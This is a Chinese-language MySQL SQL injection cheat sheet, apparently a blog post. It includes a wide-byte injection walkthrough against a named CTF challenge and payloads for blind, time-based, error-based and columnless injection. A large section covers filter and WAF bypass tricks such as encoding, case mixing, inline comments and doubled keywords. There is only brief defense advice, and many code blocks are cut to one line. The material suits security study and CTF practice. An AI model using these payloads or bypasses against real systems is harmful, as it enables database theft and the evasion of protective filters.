







基本操作
1 | 猜数据库 |
基本函数
1 | user() //当前使用者的用户名 |
宽字节注入
宽字节注入是因为数据库使用了GBK编码，两个字节代表一个汉字，因此可以使用%df、%bf、%aa、将\吃掉进行注入
1 | id = 1' --> id = 1\' --> id = 1%5c%27 |
或者也可以将\'中的\过滤掉，比如
1 | %**%5c%5c%27 //后面的 %5c 会被前面的 %5c 注释掉 |
例子
题目链接：http://chinalover.sinaapp.com/SQL-GBK/index.php?id=1
测试一下


接下来就可以进行注入了，通过order by确认只有两列，接下来确认回显字段
1 | ?id=1%df' and 1=2 union select 1,2%23 |

爆数据库
1 | ?id=1%df' and 1=2 union select 1,database()%23 |

爆表，这里数据库的名字要编码一下
1 | ?id=1%df' and 1=2 union select 1,group_concat(table_name) from information_schema.tables where table_schema=0x7361652d6368696e616c6f766572%23 |

爆列，同样表名也要编码
1 | ?id=1%df' and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x67626b73716c69%23 |

get flag
1 | ?id=1%df' and 1=2 union select 1,flag from gbksqli%23 |

防御
使用mysql_set_charset(utf8)指定字符集
使用mysql_real_escape_string进行转义，转义以下字符：
\x00、\n、\r、\、'、"、\x1a
布尔盲注
例子
1 | import requests |
时间盲注
sleep()
1 | mysql> select 1 and if(ascii(mid(database(),1,1))=116,sleep(3),1); |
benchmark()
1 | mysql> select 1 and if(ascii(mid(database(),1,1))=116,benchmark(100000,sha(1)),1); |
笛卡尔积
1 | mysql> select count(*) from information_schema.columns A, information_schema.columns B, information_schema.tables C; |
get_lock()
get_lock()是Mysql的锁机制
- get_lock会按照key来加锁，别的客户端再以同样的key加锁时就加不了了，处于等待状态。
- 当调用release_lock来释放上面加的锁或客户端断线了，上面的锁才会释放，其它的客户端才能进来。
但是要使用此函数是有条件的，需要mysql提供长连接，即mysql_pconnect()，然而一般使用的都是mysql_connect()
1 | mysql_connect() 脚本一结束，到服务器的连接就被关闭 |
从官方文档可以知道，如果我们已经开了一个session，对关键字进行了get_lock,那么再开另一个session再次对关键进行get_lock，就会延时我们指定的时间
Session 1
1 | mysql> select get_lock('glarcy',1); |
Session 2
1 | mysql> select get_lock('glarcy',3); |
Session 1
1 | mysql> select * from usertest where name='admin' and get_lock('glarcy',1); |
Session 2
1 | mysql> select * from usertest where name='admin' and 1 and get_lock('glarcy',3); |
RLIKE注入
参考这位大佬的博客：https://www.cdxy.me/?p=789
利用SQL中多次因正则消耗计算资源，达到延时的目的，即构造一个超长的字符串，进行正则匹配
1 | concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b' |
测试了一下
1 | mysql> select * from usertest where name='admin' and IF(1,concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b',0) and '1'='1'; |
报错注入
floor()
floor()+count()+group by
1 | ?id=-1' union select 1,2,count(*) from information_schema.tables where table_schema=database() group by concat(0x7e,(select database()),0x7e,floor(rand(0)*2)) --+ |
整数溢出报错
pow() , cot() , exp()
1 | mysql> select * from usertest where name = 'admin' and 1=1 and cot(0); |
几何函数报错
geometrycollection()
1 | id=1 and geometrycollection((select * from(select * from(select user())a)b)) |
multipoint()
1 | id=1 and multipoint((select * from(select * from(select user())a)b)) |
polygon()
1 | id=1 and polygon((select * from(select * from(select user())a)b)) |
multipolygon()
1 | id=1 and multipolygon((select * from(select * from(select user())a)b)) |
linestring()
1 | id=1 and linestring((select * from(select * from(select user())a)b)) |
multilinestring()
1 | id=1 and multilinestring((select * from(select * from(select user())a)b)) |
xpath语法报错
两个函数的返回长度有限,均为32个字符长度
updatexml()
UPDATEXML (XML_document, XPath_string, new_value)
1 | updatexml(1,concat(0x7e,(select @@version),0x7e),1) |
extractvalue()
EXTRACTVALUE(XML_document, XPath_string)
1 | extractvalue(1, concat(0x7e, (select concat(table_name) from information_schema.tables where table_schema=database() limit 0,1))) |
而xpath语法报错与整数溢出报错的区别在，xpath语法报错就会直接报错，如果是整数溢出报错，则会遵循and短路运算规则，所以可以利用大数溢出这个问题结合前面的1=0的判断条件进行布尔盲注
1 | mysql> select * from ctf_test where user='1' and 1=1 and updatexml(1,concat(0x7e,(select database()),0x7e),1); |
mysql列名重复报错
在mysql中，mysql列名重复会导致报错，而我们可以通过name_const制造一个列
1 | mysql> select * from (select name_const(version(),1),name_const(version(),1))a; |
不过这个有很大的限制，version()所多应的值必须是常量，而我们所需要的database()和user()都是变量，无法通过报错得出，但是我们可以利用这个原理配合join函数得到列名
1 | mysql> select * from usertest a join usertest b; |
无列名注入
1 | mysql> select * from usertest; |
绕过
空格绕过
使用 %a0、()、%20、%09、%0a、%0b、%0c、%0d、%a0、%00、/**/、/*!*/
1 | select/**/schema_name/**/from/**/information_schema.schemata |
在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格
1 | select(user())from dual where(1=1)and(2=2) |
这种绕过通常用于时间盲注，既没有逗号也没有空格。猜解database（）第一个字符ascii码是否为109，若是则加载延时
1 | ?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23 |
引号绕过
使用16进制，比如说
1 | select column_name from information_schema.tables where table_name="users" |
逗号绕过
使用from或者offset，在使用盲注的时候，需要使用到substr()，mid()，limit。这些子句方法都需要使用到逗号，对于substr()和mid()这两个方法可以使用from to的方式来解决：
1 | select substr(database(),1,1) 相当于 select substr(database() from 1 for 1); |
使用join：
1 | union select 1,2 等价于 union select * from (select 1)a join (select 2)b |
使用like：
1 | select ascii(mid(user(),1,1))=80 等价于 select user() like 'r%' |
对于limit可以使用offset来绕过：
1 | select * from news limit 0,1 等价于 select * from news limit 1 offset 0 |
大小比较符号绕过
<>可以使用greatest()、least()代替，或者使用between and
1 | select * from users where id=1 and ascii(substr(database(),0,1))>64 |
or、and、xor、not绕过
1 | and=&& or=|| xor=| not=! |
绕过注释符号
比如#、//、-—、/**/、—-+、-- -、--a，通过闭合后面的单引号
1 | id=1' union select 1,2,3||'1 |
等号绕过
使用like 、rlike 、regexp 或者使用< 或者>
绕过union、select、where等
使用注释符号
1 | 常用注释符 |
大小写绕过
1 | id=-1'UnIoN/**/SeLeCT |
内联注释/!**/
1 | id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()# |
双写关键字
1 | id=-1'UNIunionONSeLselectECT1,2,3–- |
编码绕过
如urlncode编码，ascii，hex，unicode编码绕过
1 | or 1=1 --> %6f%72%20%31%3d%31 |
使用特殊符号
1 | 反引号`，可以用来过空格和正则，特殊情况下还可以将其做注释符用 |
比如
1 | ‘se’+’lec’+’t’ |
等价函数绕过
1 | hex()、bin() ==> ascii() |
防御
1 | <?php |
参考链接：